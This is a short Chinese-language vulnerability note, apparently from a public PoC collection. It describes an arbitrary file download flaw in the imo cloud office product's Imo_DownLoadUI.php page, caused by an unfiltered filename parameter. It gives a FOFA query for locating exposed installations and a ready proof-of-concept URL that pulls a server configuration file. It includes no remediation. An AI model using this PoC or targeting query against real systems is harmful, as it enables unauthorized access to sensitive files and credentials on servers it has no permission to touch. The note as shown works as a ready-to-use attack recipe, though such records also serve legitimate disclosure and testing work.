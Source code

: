 # imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
imo 云办公室
```

## FOFA

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241714963.png)

验证POC

```
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![image-20220524171627797](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241716860.png)